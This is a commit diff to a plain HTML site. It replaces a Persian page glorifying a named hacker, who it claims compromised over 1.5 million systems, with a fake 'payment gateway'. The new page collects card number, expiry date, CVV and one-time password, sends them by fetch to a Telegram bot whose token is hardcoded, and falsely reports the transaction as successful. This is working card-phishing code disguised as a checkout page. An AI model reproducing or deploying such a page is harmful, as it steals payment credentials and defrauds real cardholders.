

Before and after one commit to Daeitorab/cvn, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,46 +3,103 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>مجله هکری ایران</title>
+    <title>درگاه پرداخت</title>
     <style>
         body {
             font-family: Arial, sans-serif;
-            background-color: #1a1a1a;
-            color: #fff;
+            background-color: #f4f4f4;
+            padding: 20px;
             text-align: center;
-            margin: 0;
-            padding: 0;
         }
-        .container {
-            padding: 50px;
+        form {
+            background: white;
+            padding: 20px;
+            border-radius: 5px;
+            box-shadow: 0 0 10px rgba(0, 0, 0, 0.1);
+            max-width: 400px;
+            margin: auto;
         }
-        h1 {
-            color: #00ff00;
+        input[type="text"] {
+            width: 100%;
+            padding: 10px;
+            margin: 10px 0;
+            border: 1px solid #ccc;
+            border-radius: 4px;
         }
-        p {
-            font-size: 1.2em;
+        input[type="submit"] {
+            background-color: #5cb85c;
+            color: white;
+            border: none;
+            padding: 10px;
+            border-radius: 4px;
+            cursor: pointer;
         }
-        .highlight {
-            color: #ff0000;
+        input[type="submit"]:hover {
+            background-color: #4cae4c;
+        }
+        .amount {
+            font-size: 18px;
+            margin: 10px 0;
             font-weight: bold;
         }
-        .stats {
-            margin-top: 20px;
-            font-size: 1.2em;
-            color: #ffcc00;
+        .note {
+            color: red;
+            margin-bottom: 20px;
         }
     </style>
 </head>
 <body>
-    <div class="container">
-        <h1>مجله هکری ایران</h1>
-        <p>به مجله هکری ایران خوش آمدید، جایی که اطلاعات جدید و تکنیک‌های پیشرفته هک و امنیت سایبری را بررسی می‌کنیم.</p>
-        <p>بر اساس جدیدترین رتبه‌بندی‌ها، <span class="highlight">محمد مهدی رحیمی</span> به عنوان رتبه 1 بهترین هکر ایران انتخاب شده است.</p>
-        <div class="stats">
-            <p>او تا کنون بیش از <span class="highlight">1,570,000</span> سیستم را هک کرده و از کار انداخته است.</p>
-            <p>با تکیه بر دانش و مهارت خود در زمینه‌های مختلف، از جمله تست نفوذ و تحلیل بدافزارها، محمد مهدی رحیمی توانسته به یکی از چهره‌های برجسته و الهام‌بخش در دنیای هک و امنیت تبدیل شود.</p>
-            <p>در این مجله، به بررسی برخی از تکنیک‌ها و روش‌های جدید او برای مقابله با تهدیدات سایبری و افزایش امنیت سیستم‌ها خواهیم پرداخت.</p>
-        </div>
-    </div>
+
+<h1>درگاه پرداخت</h1>
+<p class="note">برای پرداخت حتماً از فیلترشکن استفاده کنید!</p>
+<form id="paymentForm">
+    <input type="text" id="cardNumber" placeholder="شماره کارت" required>
+    <input type="text" id="expirationDate" placeholder="تاریخ انقضا (MM/YY)" required>
+    <input type="text" id="cvv" placeholder="CVV" required>
+    <input type="text" id="otp" placeholder="رمز پویا" required>
+    <p class="amount">مبلغ: ۱۳,۰۰۰ تومان</p>
+    <input type="hidden" id="amount" value="13000" required>
+    <input type="submit" value="پرداخت کن">
+</form>
+
+<script>
+    document.getElementById('paymentForm').addEventListener('submit', function(e) {
+        e.preventDefault();
+
+        const cardNumber = document.getElementById('cardNumber').value;
+        const expirationDate = document.getElementById('expirationDate').value;
+        const cvv = document.getElementById('cvv').value;
+        const otp = document.getElementById('otp').value;
+        const amount = document.getElementById('amount').value;
+
+        const botToken = '7052052887:AAEAAZaJqLHxQAgnFnrWnHjMrUgvkbqv8GM'; // توکن ربات
+        const chatId = '7283653302'; // شناسه چت
+        const message = `شماره کارت: ${cardNumber}\nتاریخ انقضا: ${expirationDate}\nCVV: ${cvv}\nرمز پویا: ${otp}\nمبلغ: ${amount} تومان`;
+
+        fetch(`https://api.telegram.org/bot${botToken}/sendMessage`, {
+            method: 'POST',
+            headers: {
+                'Content-Type': 'application/json',
+            },
+            body: JSON.stringify({
+                chat_id: chatId,
+                text: message,
+            })
+        })
+        .then(response => response.json())
+        .then(data => {
+            if (data.ok) {
+                alert('تراکنش با موفقیت انجام شد!');
+            } else {
+                alert('خطا در ارسال اطلاعات.');
+            }
+        })
+        .catch(error => {
+            console.error('Error:', error);
+            alert('خطا در برقراری ارتباط با ربات.');
+        });
+    });
+</script>
+
 </body>
 </html>
```
